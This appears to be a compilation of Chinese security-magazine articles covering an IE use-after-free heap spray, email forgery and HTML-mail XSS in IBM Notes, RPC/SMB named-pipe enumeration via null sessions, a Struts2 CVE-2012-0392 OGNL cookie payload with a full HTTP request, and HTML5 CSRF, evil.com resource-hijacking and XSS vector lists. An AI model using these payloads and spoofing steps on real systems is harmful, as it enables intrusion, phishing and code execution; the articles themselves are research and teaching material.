parentNode 即 CTreeNode 指针指向的对象已经被字符串替换，调用 parentNode 的 click 方法时，系统底层就会寻找该对象的虚函数表，并执行其中相关的函数。

- 相关函数：
- `corruptedoption.parentNode.click()`


```
fakeobj = unescape("%u4141%u4141%u0024%u1c1c") + unescape("%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141%u4141");
```

上图中绿色部分的数值为 `fakeobj` 对象。

上面部分内容引用了 Ivan Fratric 大牛的一些思想，笔者给出了一个攻击脚本，但是更改了其中的一个小地方，使其不能运行，这是为了让脚本用于研究，而不是破坏。后来发现整个脚本的最前方缺少下面的一个语句：`<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">`。

## NOTES 邮件系统漏洞发掘


图/文 爱无言

NOTES 邮件系统是 IBM 公司开发的一套邮件系统，作为优秀的内部邮件系统，在中国应用极为广泛，很多大型公司将 NOTES 作为内部办公 OA 及邮件系统使用。

但是 NOTES 作为一个邮件应用，利用服务器发送邮件，利用网络传递消息，它必然和其他网络应用一样，会出现这样那样的安全问题。看我们能挖掘出多少来。

NOTES 通过使用密钥和其他安全手段，提供了 4 级安全措施：验证、存取控制、字段级加密和电子签名，在身份认证和传输安全上很严密。

### 一、邮件病毒木马携带

电子邮件可以携带病毒木马，这是由于邮件能携带 Word 文档或 exe 可执行文件等附件，而 Word 文档可能携带宏病毒；exe 文件可能携带的病毒种类更多，所以附带传送二进制数据时，传送的数据中很可能包含有病毒，这个不可避免。但一个优秀的、成熟的、有安全责任感的邮件客户端软件，收到带有附件的文件后，应该正确分析附件的性质；当附件是可执行文件时，软件应该对其做一个安全限制，用户打开该附件时，应该提醒用户安全风险；实际上，Gmail、Outlook 等大部分邮件软件都做到了这一点，分析提示附件安全风险，甚至拒绝有安全风险的附件。

而号称安全的 NOTES 添加 exe 附件，不会进行任何提醒，而是直接添加；收件人收到 exe 附件时，也可下载到本地或直接执行，而不会进行安全提醒，不知这是什么考虑？如下图所示。


这个风险就不用说了，一般人安全意识稍差，打开恶意附件就中招了。不过各位可能要说了，exe 文件很招眼，让人心生防患，一般人不会打开。再加上很多企业部署了邮件网关，比如我们进行安全检测的这家，收到外来邮件，提示如下图所示。


要让人中招还要加大欺骗力度，比如伪造邮件。我们监测的这家企业在 SMTP 接受服务器处不进行接入控制和身份认证，给伪造邮件开了方便之门。现在，我们自己搭建一个邮件发送端，直接和邮件接收方 SMTP 服务器通信，发送伪造邮件。

### 二、伪造邮件

伪造邮件首先要确定接收方的 SMTP 服务器域名，可以百度或 Google 一下，一般是 mx+n+对方域名或 smtp+对方域名。找到后，最简单的方法是直接 telnet 连接服务器服务端口，然后按照 SMTP 和 MIME 底层通信流程发送伪造邮件。现在看看和 SMTP 服务器的对话过程：


看一下 NOTES 邮箱，果然收到邮件了。现在，我们可以冒充任何收件人的领导、朋友、同事发邮件，邮件中可以包含附件、链接、内嵌对象等，现在让人中招是不是容易多了？我们可以使用 vbs、javamail、c#socket 等编写代码自动实现这个过程。

但是毕竟还要对方下载附件和单击链接，有没有更自动化的手段呢？

### 三、跨站脚本 0day

想到了跨站脚本，很多邮件客户端不能在性能和安全性之间平衡，支持富文本，通过过滤 HTML 源程序中能够使脚本程序运行的代码获取安全性；但如果 script 元素中出现漏洞，导致可在 HTML 邮件中直接嵌入脚本程序，或跨站脚本的发生。

但是根据 NOTES 提供的资料，NOTES 不支持脚本语言，据说从根本上杜绝了脚本漏洞的发生。先测试一下吧：从 NOTES 服务器创建一封邮件，主题和正文都是 `<script>alert"xss"</script>`，发送出去，等几秒，收到了，如下所示。


看来没有问题，NOTES 把脚本当作了文本处理。从其他邮箱，如 Gmail，也创建一封这样的邮件，发给 NOTES，打开后也是一样。看来 NOTES 确实没有跨站脚本漏洞。

但别急着下结论。通过测试，我发现 NOTES 在内部邮件或与正规的外部邮件传送中确实没有问题，因为 NOTES 本身无法伪造恶意的 HTML 邮件；如果对邮件中插入恶意脚本，NOTES 将对脚本代码进行过滤或处理。

加密转换，比如通过 `htmlencode` 加密转换，使脚本不可执行，这就是 NOTES 不识别脚本的秘密。但通过 SMTP 服务器接收其他客户端软件或 Webmail 的邮件时问题就出现了。

我们来看看其他邮件客户端软件或 Webmail，如果构造带有恶意 HTML 代码的邮件，会出现什么情况呢？

我们通过自己的邮件发送软件，构造一个恶意 HTML 代码的邮件，内容是：`<script>alert(1)</script>`。由于在邮件中构造 HTML 代码，对代码进行 Base64 加密，上面这个代码加密后内容为“PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==”。修改邮件头相关内容为：`Content-Type:text/html;Content-Transfer-Encoding:base64`。构造好恶意邮件后，通过邮件发送给 NOTES，打开这封邮件，这时的情况如下图所示。

跨站脚本出现了！原因其实很简单，NOTES 会将远程邮件内容从 Base64 转换为可读内容，对这种可读内容中的恶意脚本，NOTES 没有过滤和加密，导致了问题的发生。

由于 NOTES 是通过 NOTES ID 进行双因素认证的，不能利用跨站脚本的一个常见危害——Cookie 窃取，但是其他危害，如网马下载、钓鱼攻击等还是可以进行的。

这个漏洞有人刚刚通过 IBM 中国区客服向 IBM 总部进行了报告，正在处理中。

NOTES 邮件是通过 NSF 文件保存在本地的，我一直想测试是否能实施成功跨站脚本的最大危害——跨域攻击，但不知为什么，一直没有成功。一些正常的脚本，比如 ActiveX 对象生成、XMLHTTP 利用等，在客户端打开的时候会脚本报错，可能有一些什么限制，比较郁闷。

对邮件发送或跨站脚本进一步利用有什么意见，欢迎进一步讨论。


## RPC 漏洞挖掘


图/文 吴锦锋

前一段时间一直在关注 RPC 和 SMB 的相关知识，现在总结出来共享给大家。

### 1. 基础知识

提到 SMB 原理，不得不讲一下资源定位器、网络提供者、重定向器 3 个概念。应用程序向远程服务器发送一个 I/O 请求，由于被请求的对象不在本地而在远程服务器上，因此交给资源定位器。资源定位器的作用是从上层的应用程序中接受到请求数据，然后将请求转发给下层中合适的网络提供者。

网络提供者使用重定向器将请求转发给远端的重定向器服务器，在这个过程中，它需要格式化服务请求消息，再将其发给远程计算机的重定向器服务器。最后远程机器的重定向服务器收到这个请求之后，会以发出本地 I/O 请求的方式，来满足这一请求。整个过程如下图所示。


资源定位器（MUP）负责选择具体的网络提供者来满足 UNC 连接请求。

我们通过一个例子来完整地描述一下整个过程，假定一个应用程序要通过网络打开 `\\Myserver\Myshare\Sample.mp3`，那么各组件的通信：

- 1. 使用 CreateFile 这个 API 函数，应用程序向本地操作系统提交一个请求，要求打开 `\\Myserver\Myshare\Sample.mp3`。
- 2. 根据从 UNC 路径描述中获得的信息，本地（本机）操作系统的文件系统判断出该 I/O（输入/输出）请求的目的地是一台远程机器，名为 `\\Myserver`，所以将此请求传递给 MUP。
- 3. MUP 调查出该 I/O 请求发给的是一个 MSNP 提供者，因为网上的 `\\Myserver` 机器正在使用 NetBIOS 名字解析机制。
- 4. I/O 请求随即传给 MSNP 提供者的重定向器。
- 5. 重定向器将此请求格式化成一条 SMB 消息，要求打开包含在远程 `\Myshare` 目录下的 `Sample.mp3` 文件。
- 6. 格式化好的 SMB 消息终于通过一种网络传送协议，正式送入网络。
- 7. 名为 `\\Myserver` 的服务器从网上接收到这个 SMB 请求，并将请求传给服务器的 MSNP 重定向器服务器。
- 8. 服务器的重定向器服务提交一个本地 I/O 请求，希望打开位于 `\Myshare` 这个共享位置处的 `Sample.mp3` 文件。
- 9. 服务器的重定向器服务格式化好一条 SMB 响应消息，指出本地打开文件的 I/O 请求是成功，还是失败。
- 10. 通过一种网络传送协议，服务器的这条 SMB 响应消息返回客户端。
- 11. MSNP 重定向器收到服务器的这条 SMB 响应消息，并向本机操作系统传递一个返回代码。
- 12. 本机操作系统再将该代码返回给当初应用程序的 CreateFile API 请求。

从中可以看出，MSNP 重定向器必须经历大量步骤，才能让一个应用程序访问到远程资源。当然，MSNP 重定向器也需要对网络资源提供访问控制服务。这其实正是“网络安全”机制的一部分。

### 2. SMB 原理

SMB 协议最早是由微软及 Intel 于 20 世纪 80 年代末期联合开发成功的。当时的设计宗旨是让远程的文件系统能由 MS-DOS 程序进行“透明”的访问。现在的作用是让 Windows MSNP 重定向器与远程工作站的 MSNP 服务器进行通信。

SMB 是一种客户端/服务器、请求/响应协议。通过 SMB 协议，客户端应用程序可以在各种网络环境下读、写服务器上的文件及对服务器程序提出服务请求。此外，通过 SMB 协议，应用程序可以访问远程服务器端的文件及打印机、邮件槽（mailslot）、命名管道（named pipe）等资源。

### 3. 命名管道

“命名管道”或“命名管线”（Named Pipes）是一种简单的进程间通信（IPC）机制。命名管道可在同一台计算机的不同进程之间，或在跨越一个网络的不同计算机的不同进程之间，支持可靠的、单向或双向的数据通信。命名管道是用“通用命名规范”（UNC）来标识的，因此命名管道底层也使用（MSNP）重定向器作为中介来进行通信。

计算机管理窗口中，存在很多共享，比如说：ADMIN$、C$、D$、E$、IPC$。前 4 个都是文件夹共享，IPC$ 是命名管道共享。如果是将 IPC$ 删除，那么命名管道机制将不能使用，如类似 `pipe/epmapper` 的命名管道将不能使用。而删除前 4 项文件夹共享，将不会影响命名管道的使用。

命名管道由一个文件系统驱动来实现，该文件驱动是 `npfs.sys`。管道列表工具被用于枚举 npfs 命名空间，来显示本地打开了哪些命名管道。依靠在驱动列表中选择命名管道，文件监视工具同样可以监控命名管道文件系统的活动状态。

通信机制的一种。可以用于本地通信，也可以用于远程通信。访问远端的命名管道（包含在 IPC$ 共享中）要使用 SMB 协议。

### 4. 实验

如下图所示，进行了远程 RPC 调用实验，该 RPC 通过命名管道来进行远程调用，命名管道的名称为 `\\IP\\pipe\\{8dd50205-3108-498f-96e8-dbc4ec074cf9}`。调用成功后，在 IPC$ 一行上的客户端重定向栏上会显示 1。


经过测试发现，如果打开 IPC$ 共享的话，那么所有的命名管道将能被使用。如果关闭 IPC$ 共享的话（删除上图中的 IPC$），那么所有的命名管道将不能被远程机器使用。

注：IPC$ 也是一个命名管道，命名管道名和 GUID 可以是任意值。

### 5. RPC 原理

下面的图是一个 RPC 网络通信的逻辑图。


RPC——远程过程调用，是一种允许分布式应用程序调用网络上不同计算机的可用服务的机制。RPC 服务会在注册表中给自己注册一个 UUID，称为通用唯一标识符，这个 UUID 针对每一项服务都是一个唯一的值，且在所有的平台上通用。RPC 通信会使用两种机制，一种是基于命名管道的方式，一种是基于 TCP/IP 的方式。当使用命名管道的方式进行通信时，将使用固定的 139 或 445 端口；当使用 TCP/IP 的方式进行通信时，将使用固定端口或动态分配端口。

但在服务的生存期内，端口的分配是静态的。当一个客户端要与特定的 RPC 服务通信的时候，它无法事先知道该服务在哪一个端口上运行。因此该客户端会先建立一个到服务器端口映射器服务（在 135 端口），使用其请求的服务的 UUID 向服务器端口映射器服务查询该端口号，端口映射器会将相应的端口号返回给客户端，然后关闭连接。

### 6. Windows RPC 服务

某个 Windows Service 服务（计算机管理中看到的）可能提供多个 RPC 服务，Windows 服务和 RPC 服务可能是一对多的关系，也可能是多对多的关系。每个 RPC 服务对应一个 UUID，该端点有可能是命名管道，也有可能是 TCP/IP 端口。但是一个通信端点有可能对应多个 RPC 服务或接口，也就是说 RPC 服务或接口可能存在多个共享一个通信端点的情况。每一个 RPC 服务又对应了多个 Operation name，每个 Operation name 相当于一个函数。Operation number 在有些情况下会使用，如下表所示。

| Interface | Operation number | Operation-name |
|---|---|---|
| 76d12b80-3467-11d3-91ff-0090272f9ea3 v1.0: qmcomm2 | 0x00 | QMSendMessageInternalEx |
|  | 0x01 | ACSendMessageEx |
|  | 0x02 | ACReceiveMessageEx |
|  | 0x03 | ACCreateCursorEx |

RPCSS.EXE 中存在了多个 RPC 服务，也就对应了多个 UUID。这多个 RPC 服务都使用同一个端口 135，并且是用同一个命名管道 `\pipe\epmapper`。但是使用命名管道时，可能要走 445 端口。其实这些 RPC 服务中最重要的是 EPM 服务（服务端口映射查询服务，UUID 为 `e1af8308-5d1f-11c9-91a4-08002b14a0fa`）。

```text
Portmapper 服务（EPM）是一个 RPC 服务，该 RPC 服务能够使用下面的通信端点：

ncalrpc: epmapper LPC port
ncacn_np: epmapper named pipe
ncacn_ip_tcp: 135/tcp
ncadg_ip_udp: 135/udp
ncacn_http: 593/tcp
```

### 7. Metasploit 与 RPC

在 Metasploit 中，使用 RPC 进行远程过程调用时，可以使用 named pipe 作为端点，也可以使用 TCP/IP 作为端点。

```text
当使用 named pipe 时，handle = dcerpc_handle('4b324fc8-1670-01d3-1278-5a47bf6ee188', '3.0', 'ncacn_np', ["\\#{datastore['SMBPIPE']}"])
```

```text
当使用 tcp 时，handle = dcerpc_handle('fdb3a030-065f-11d1-bb9b-00a024ea5525', '1.0', 'ncacn_ip_tcp', [datastore['RPORT']])
```

程序中使用到了 NDR，NDR 是 RPC 层进行数据编码的协议。远程过程调用 NDR（网络数据表示）引擎是 RPC 和 DCOM 组件的编码引擎。NDR 引擎处理远程调用中所有的与 stub 相关的事情。NDR 编码过程来自于 MIDL 生成的 stub 中的 C 代码来驱动。

整个代码的开头之所以要引入 Exploit::Remote::SMB，是因为用到了 smb_login()。如果 bind 操作中使用的不是命名管道，而是 TCP 网络端口的话，那么就不需要有 smb_login() 连接函数了。

利用 IPC$，连接者甚至可以与目标主机建立一个空的连接而无须用户名与密码（当然，对方机器必须开了 IPC$ 共享，否则你是连接不上的），而利用这个空的连接，连接者还可以得到目标主机上的用户列表（不过负责的管理员会禁止导出用户列表）。

### 8. RPC 漏洞挖掘

MetaSploit 中存在一些 RPC 应用漏洞挖掘的工具。当然我们如果能够了解原理，那么可以直接手工编写一些自己的漏洞挖掘工具。

### 9. 相关工具

- PipeList
- FileMon
- 135dump.exe
- ifids.exe
- rpcdump

PipeList 和 FileMon 能够枚举系统上出现的命名管道。rpcdump 是一个在 Windows 环境下查看远程主机 RPC 服务信息的工具，通过 EPM 服务进行信息的查询。mida 插件是 IDA 上的一个插件，用于逆向出 RPC 调用，获得函数和对应的码号。ifids.exe 的功能是查看某个端点上绑定了哪些 RPC 应用，该端点既可以是命名管道，也可以是端口号。

IEEn 工具是一个专业远程控制工具，通过目标主机的 135 端口查询目标主机中开放了哪些 RPC 服务，并和这些开放的 RPC 服务进行通信。可以监控用户使用浏览器、Excel 等。但是必须知道目标主机的 IP 地址、系统登录名和密码。

135dump.exe 笔者没有用过，其作用可能是查询系统中注册的 RPC 服务的信息，类似于 rpcdump。

### 10. 基于命名管道的 RPC

在基于命名管道的 RPC 协议中，由管道名、UUID、子过程号（函数号）来唯一确定一个远程函数调用。由此，可以利用这 3 个要素来实现对远程 RPC 漏洞的 FUZZ 测试。对于基于管道进行的 RPC 通信，我们最好事先能够知道该 RPC 服务对应的 UUID、命名管道名和子过程号，如果不知道，那么采用下面的方法：

- 1. 通过 Sysinternal 公司发布的 PipeList 工具枚举出系统上所有管道名。
- 2. 通过 IFIDS 工具获得每一个管道对应的 UUID 列表及其版本号，同时要注意的是某些管道名无法通过 IFIDS 获得其对应的 UUID。

```text
> net use //10.10.7.44/ipc$ "" /user:""
The command completed successfully.
> ifids.exe -p ncacn_np -e /pipe/epmapper -t 10.10.7.44
Interfaces[3]:
Interface UUID: e1af8308-5d1f-11c9-91a4-08002b14a0fa version 3.0
Interface UUID: 0b0a6584-9e0f-11cf-a3cf-00805f68cb1b version 1.1
Interface UUID: 975201b0-59ca-11d0-a8d5-00a0c90d8051 version 1.0
...
> ifids -p ncalrpc -e ntsvcs serveur
Interfaces: 7
[...]
```

注意：建立空会话是必要步骤。有人什么也没得到，最大可能是忘记或不清楚需要提前建立 SMB 会话才能访问远程命名管道。访问本地命名管道时无须提前建立 SMB 会话。

### 11. 基于 TCP/IP 的 RPC

```text
> ifids.exe -p ncacn_ip_tcp -e 135 -t 10.10.7.44
Interfaces[11]:
Interface UUID: e1af8308-5d1f-11c9-91a4-08002b14a0fa version 3.0
Interface UUID: 0b0a6584-9e0f-11cf-a3cf-00805f68cb1b version 1.1
Interface UUID: 975201b0-59ca-11d0-a8d5-00a0c90d8051 version 1.0
Interface UUID: e60c73e6-88f9-11cf-9af1-0020af6e72f4
version 2.0
Interface UUID: 99fcfec4-5260-101b-bbcb-00aa0021347a
version 0.0
```

### 12. 总结

进行漏洞挖掘最好的方法还是自己编写漏洞挖掘软件，使用类似于 sulley 这样的第三方开源框架，通过 PAIMEI 中的工具监控被测软件的代码覆盖率，使用逆向分析将 RPC 传输过程中的数据加密进行绕过处理。总而言之，漏洞挖掘者需要发挥想象力。

## Struts2 远程执行漏洞分析之 CVE-2012-0392 篇

北京数字认证股份有限公司 攻防实验室 王志民


CVE 于 2010 年 8 月份和 2012 年 1 月份，分别发布了 Struts2 框架几个远程执行漏洞。说到这几个远程执行漏洞，无一不与 OGNL 有关。当然，这并不意味着 OGNL 问题重重，相反，正由于它是一款非常优秀的表达式语言，OGNL 才被 Struts2/XWork 所整合使用。OGNL 的功能是强大的，解决了 MVC 模式页面与对象之间的不匹配性，还支持方法调用。

在 Struts2 中，请求访问 action 的所有参数都被当做 OGNL 表达式来对待，表达式将被写入到 ValueStack 且被解释执行。上面提到了 OGNL 具有丰富的功能，所以必须对写入 ValueStack 的内容进行正确的限制，不幸的是，Struts2 框架疏忽了这点，所以导致了注入 Java 代码的漏洞。除请求参数外，cookie 在某种情况下，也会写入到 ValueStack。

下面简单介绍一下 Struts2 的几个远程执行漏洞，如下表所示。

| 漏洞编号 | 漏洞简介 |
|---|---|
| CVE-2010-1870 | ParameterInterceptor 类不正确限制对服务端对象的访问，通过特殊构建 OGNL（Object-Graph Navigation Language）表达式可修改服务端对象或执行任意命令。存在于 Struts 2.0.0~2.1.8.1 版本。 |
| CVE-2012-0391 | Struts 2.2.3.1 之前版本的 ExceptionDelegator 组件，在处理类型转换异常时，将参数翻译为 OGNL 表达式，允许攻击者执行任意 Java 代码。 |
| CVE-2012-0392 | Struts 2.3.1.1 之前版本的 CookieInterceptor 组件未对 cookie 值进行强制限制，若开发商未正确限制，攻击者可能执行任意 Java 代码。 |
| CVE-2012-0393 | Struts 2.3.1.1 之前版本的 ParameterInterceptor 组件未阻止访问 public 构造函数，当 action 存在未初始化属性时，攻击者可创建或覆盖任意文件。 |
| CVE-2012-0394 | 在开发者模式下允许远程执行，严格来说不算 Struts2 漏洞，生产环境正确部署即可。 |

更详尽的信息，请参考 National Vulnerability Database（NVD）

http://web.nvd.nist.gov/view/vuln/search-results?query=struts2&search_typee=all&cves=on

正如题目所述，本文就 0392 漏洞进行分析，笔者搭建了一个 Web 应用开发环境，工程中直接引用 struts2/xwork 源代码，以便跟踪调试，读者有兴趣的话，可以采用同样的方式对其他几个漏洞进行分析。

### 1. 搭建开发环境

- （1）下载 Struts2。
- （2）创建 Web 工程。
- （3）部署 struts2-blank-2.2.1。

按 CVE-2012-0392 漏洞的介绍，该漏洞存在于 Struts 2.3.1.1 之前的版本，笔者选择下载了 Struts 2.2.1。下载页面：http://struts.apache.org/downloads.html

下载的 Struts2 包含了 apps（几个 Web 应用包）、lib（引用的库文件）、src（struts2/xwork 源代码）、docs（文档）。

将 apps/struts2-blank-2.2.1.war 解压，使用 MyEclipse 指定解压后的目录，创建 Web 工程。以下几点需要注意：复制 struts2/xwork 源代码、资源文件至 Web 应用中的 src。

Web 工程直接引用 struts2/xwork 源代码，需要删除 lib 目录中的 struts2-core-2.2.1.jar、xwork-core-2.2.1.jar；另外，xwork-core-2.2.1.jar 中包含了对第三方文件的扩展，但是并未提供该部分源代码，所以不能彻底删除该 jar，需要保留这些扩展的 class 文件，否则编译时会报 class not found。

笔者使用的应用服务器为 apache-tomcat-6.0.29。为了方便开发调试，最好采用部署目录的方式，部署目录直接指定为开发目录。

### 2. 漏洞分析

环境准备好了，现在我们进入正题。

#### （1）走读 CookieInterceptor.java

通过阅读 Cookie 拦截器源代码（org\apache\struts2\interceptor\CookieInterceptor.java），我们发现，拦截器对 Cookie(name,value) 值做了白名单限制（通过 Struts 配置文件进行白名单配置，name 白名单、value 白名单分别对应 cookiesNameSet 和 cookiesValueSet），CookieInterceptor 大概执行流程如图 1 所示。

NVD 关于该 CVE-2012-0392 漏洞的描述是不清晰的，很容易引起误解；描述里提到，Struts 2.3.1.1 之前版本的 CookieInterceptor 没有使用参数名称白名单，实际上是有的，只是 Struts 把白名单的制定权交在 Struts 使用者的手里——通过配置文件定制。如果 Struts 使用者对此没有充分的了解，很可能将此忽略，或者制定一个安全防护无效的白名单。

NVD 关于 CVE-2012-0392 漏洞的描述，请参见：http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2012-0392


#### （2）配置 Cookie 拦截器

了解了 Cookie 拦截器的处理流程后，下面我们来扮演一个安全意识不够的程序员。修改 example.xml 配置文件，给 HelloWorld Action 配置 Cookie 拦截器，代码如下：

```xml
<action name="HelloWorld" class="example.HelloWorld">
    <interceptor-ref name="cookie">
        <param name="cookiesName">*</param>
        <param name="cookiesValue">1,2</param>
    </interceptor-ref>
    <result>/example/HelloWorld.jsp</result>
</action>
```

配置说明：

- cookiesName 白名单定义为“*”，即允许任何值。
- cookiesValue 白名单定义为“1、2”。

修改完配置文件，记得重新部署，笔者通常在 MyEclipse 中重启 Tomcat。

我们先做个简单的测验，修改 CookieInterceptor.java，然后访问：http://localhost:8080/cve0392/example/HelloWorld.action，成功弹出计算器。通过这种方法，也可以很方便地调试我们编写的 OGNL 表达式。测试完毕请返回源代码。

```java
Cookie[] cookies = ServletActionContext.getRequest().getCookies();
/* 构造 cookie */
cookies = new Cookie[2];
cookies[0] = new Cookie("#_memberAccess[\"allowStaticMethodAccess\"]\\u003dtrue)(x)", "1");
cookies[1] = new Cookie("x[@java.lang.Runtime@getRuntime().exec('calc')]]", "1");
```

#### （3）构造请求

借助 BurpSuite 的 Repeater 功能，构造如下请求并发送。

```http
UA-CPU: x86
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; .NET CLR 2.0.50727; .NET CLR 3.0.04506.648; .NET CLR 3.5.21022; InfoPath.3)
Host: 192.168.132.22:8080
Proxy-Connection: Keep-Alive
Pragma: no-cache
Cookie: JSESSIONID=...;(#_memberAccess["allowStaticMethodAccess"]\u003dtrue)(x)=1; x[@java.lang.Runtime@getRuntime().exec('calc')]=1
```

之前的小测试非常顺利，可是这次只是收到了响应，却没有弹出计算器。重新发了几次，依然静悄悄，还是看看后台到底发生了什么吧，进入调试模式。

在调试模式下监控 request 请求，如图 2 所示的红色圈中部分，Cookie 已经被截断，计算器自然是弹不出来了。request 从哪里来？从客户端到容器，再从容器到 Cookie 拦截器，中间经过容器处理了一次，那么是不是 Tomcat 在处理请求时丢弃了部分数据呢？

我们换个商业应用服务器 WebLogic 10.3 再试一下，此时监控 request 请求对象，如图 3 所示的红色圈中部分，Cookie 完整正如我们发送的那样。当然，Java 代码也成功执行，弹出了计算器。

至于 Tomcat 6.0.29 为什么会截断 Cookie，本文不做讨论，有兴趣的读者可以研究一下。


### （4）Struts 2.3.1.1 是如何修复 0392 号漏洞的？

CookieInterceptor.java 增加了 cookie name 正则表达式校验，正则表达式如下：

```java
private static final String ACCEPTED_PATTERN = "[a-zA-Z0-9\\._\\-\\[\\]]*";
```

## HTML5 十大威胁：隐秘攻击与漏洞潜伏

文/Shreeraj Shah, Founder & Director  
译/小小杉


HTML5 已经成了更有效、更现代的网页开发方式，引领了一个新潮流。HTML5 极大地提升了浏览器执行能力，能够在不依赖第三方插件的情况下实现图像、字体、动画和过渡效果。它不仅是单一技术栈，还是由 XHR、DOM、CORS 与浏览器渲染等组件构成的组合，并带来了本地存储、WebSQL、WebSocket、WebWorkers、高级 XHR 等能力。这些能力在提升开发效率的同时，也暴露了更多攻击面与可利用漏洞。本文将分析新架构特性下的潜在威胁，并结合示例进行说明。


图 1 10 个可能面临的最大威胁

### 1. CORS 攻击与 CSRF

同源策略（SOP）决定跨域调用，并允许建立跨域连接。绕过 SOP 后，攻击者可在目标域发起伪造请求实施 CSRF。HTML5 提供了更强大的 CORS 机制，通过 HTTP 头中的 `Origin` 等字段控制跨域资源访问；一旦配置不当，便可能被用于单向 CSRF。攻击者可借助 XHR（如 `POST`、`withCredentials`）触发 Cookie 重放，构造成功攻击；还可能在用户不知情时触发文件上传等操作。若请求设置为简单请求（如 `Content-Type: text/plain` 且无额外头信息），可能绕过预检流程直接发送请求，从而增加被滥用风险。

一段跨域实施 CSRF 攻击的脚本：


图 2 使用 HTML5/XHR 特性实施 CSRF 攻击

```javascript
<script language="javascript" type="text/javascript">
function getMe() {
    var http;
    http = new XMLHttpRequest();
    http.open("POST", "http://192.168.100.12/json/jservice.ashx", true);
    http.setRequestHeader("Content-Type", "text/plain");
    http.withCredentials = "true";
    http.onreadystatechange = function() {
        if (http.readyState == 4) {
            var response = http.responseText;
            document.getElementById('result').innerHTML = response;
        }
    }
    http.send('{"id":2,"method":"getProduct","params":{"id":2}}');
}
getMe();
</script>
```

XHR 同样支持文件上传，HTML5 中嵌入的 XHR2 级调用可以打开一个跨域 socket 连接，并传送 HTTP 请求。跨域调用需要遵循 CORS 规范，浏览器会产生一个 preflight 请求，以校验请求策略。然而有趣的是，“multipart/form-data” 请求在 CORS 规范下完全通过，不需受制于 preflight 检测，而且 “withCredentials” 设置也允许 Cookie 重放。攻击目标为那些支持文件上传的应用程序，如订单、发票、进口等企业网站，如图 3 所示。

```javascript
// 利用 multipart/form-data 进行恶意文件上传的请求脚本示例
var boundary = '---------------------------...';
var http = new XMLHttpRequest();
http.open('POST', 'vuln/upload.aspx', true);
http.setRequestHeader('Content-Type', 'multipart/form-data; boundary=' + boundary);
http.send(body);
```

图 3 利用 multipart/form-data 请求实施恶意文件上传

### 2. 单击劫持、跨源资源劫持及 UI 漏洞

单击劫持在当前应用程序中已经成为了一种主流的攻击方式。一些社交网站允许 iframe 重加载，因而此类网站的这种行为为单击劫持攻击提供了可能。另外，HTML5 针对 iframe 元素增加了 sandbox 属性，沙箱包含了一些有趣的属性，如 allow-same-origin（允许同源访问）、allow-scripts（允许执行 iframe 中的脚本）、allow-forms（允许提交表单）、allow-top-navigation（允许访问顶级窗口）等。iframe 的这些限制可能对于跨域攻击有很好的防御，但是对于单击劫持这种攻击可能带来了福音。

一些新的有趣的表现层标签可能会对创建一个虚假的表现层带来帮助。总之，HTML5 为劫持攻击带来了一些新手段。CSRF 攻击和 UI 重定向（单击/TAB/事件劫持）等攻击手法是破坏跨域 HTTP 调用或实施事件劫持的常用手段。

HTML5、Web2.0 及富互联网程序 RIA 都以初始状态或通过插件方式加载到浏览器内，DOM 也已经成为浏览器中不可分割的一部分。Web 应用程序使用 DOM 组件有效处理更为复杂的事件，使得客户端展现得更为友好，同时也泄露了 DOM 所包含的各种特性。有许多应用程序作为单一的 DOM 应用程序运行，一旦被加载，它将仍然处在整个生命周期范围内。跨源资源共享和同源策略在保护跨源资源并限制相关 HTTP 调用上扮演着重要的角色。

HTML5 和 RIA 应用保护各类资源如 Flash 文件、Silverlight、音频与视频等。这些资源都是加载到自己的对象空间内。这些资源通过 DOM 组件可以访问并操作，显然若 DOM 被篡改，或潜在资源被替换为跨源/跨域资源，即引发 CORJacking。假设存在两个域名：foobank.com 和 evil.com，foobank 站点存在 Flash 驱动并拥有一个 login.swf 文件。此时 Flash 组件会通过浏览器中的对象加载，若通过 DOM 调用的文件 login.swf 被另外一个域名 evil.com 中的相似文件所替代，即引发 CORJacking。

```html
<object classid="..." id="login" width="300" height="190" codebase="http://download.macromedia.com/...">
  <param name="movie" value="login.swf" />
  <param name="quality" value="high" />
  <param name="bgcolor" value="#ffffff" />
  <embed src="login.swf" quality="high" ... />
</object>
```

图 4 加载 Flash 组件的对象标签

HTML 页面被加载到浏览器中，且来自 foobank.com 站点的对象也被加载。假设这个页面基于 DOM，则这个值可能被操作劫持。因此，若我们想访问这个对象标签的 src，通过 DOM 技术即可获取。但有趣的是，`document.getElementsByName('Login').item(0).src` 不仅可以得到 src 值，而且可以将其指定到一个跨域资源上，如下语句所示：

```javascript
document.getElementsByName('Login').item(0).src='http://evil.com/login.swf'
```

此时，浏览器实际请求的资源 `login.swf` 来自 `evil.com`。

### 3. 基于 HTML5 标签、属性及事件的跨站脚本攻击

HTML5 包含了一些有趣的标签，它们允许动态加载音视频，且这些标签还存在一些有趣的属性信息，如 `poster`、`onerror`、`formaction`、`oninput` 等。所有这些属性均允许执行 JavaScript，这类标签可能被 XSS 和 CSRF 攻击。所以，在引入这些新标签特性及动态加载操作时需格外小心；应用级防火墙 WAF 需要重新配置，以允许基于标签的注入并使得反射 XSS 和存储型 XSS 均失效。下面是 HTML5 提供的关键技术载体：

- Tags: media(audio/video), canvas(getImageData), menu, embed, buttons/commands, form control(keys)
- Attributes: form, submit, autofocus, sandbox, manifest, rel 等
- Events/Objects: Navigation(_self), Editable content, Drag-Drop APIs, pushState(History) 等

它允许创建各种 XSS 变种并成功绕过现有的 XSS 过滤器，如以下脚本语言：

```html
Media tags:
<video><source onerror="javascript:alert(1)">
<video onerror="javascript:alert(1)"><source>
```

笔者在测试地址下输入域名：  
`http://192.168.100.20/search.aspx?search=<video><source+onerror%3Djavascript%3Aalert(1)">`

```html
Exploiting autofocus
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
```

注入方式如：  
`http://192.168.100.20/search.aspx?search=<input+autofocus+onfocus%3Dalert(1)>`

```html
MathML issues
<math href="javascript:alert(1)">CLICKME</math>
<math><maction actiontype="statusline" xlink:href="javascript:alert(1)">CLICKME</maction></math>

Form & Button
